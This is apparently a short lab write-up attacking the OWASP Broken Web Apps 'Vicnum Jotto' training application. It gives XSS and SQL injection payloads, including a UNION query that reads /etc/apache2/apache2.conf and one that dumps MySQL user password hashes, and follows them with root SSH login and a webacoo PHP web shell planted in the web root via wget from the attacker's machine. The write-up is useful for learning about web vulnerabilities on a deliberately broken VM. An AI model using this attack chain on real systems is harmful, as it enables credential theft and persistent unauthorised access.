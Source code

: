 +++
title = "OWASP Broken Web Apps Vicnum - Jotto"
slug = "owasp-broken-web-apps-vicnum-jotto"
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

{% highlight bash %}
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
{% endhighlight %}

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
{% highlight sql %}
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
{% endhighlight %}

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}
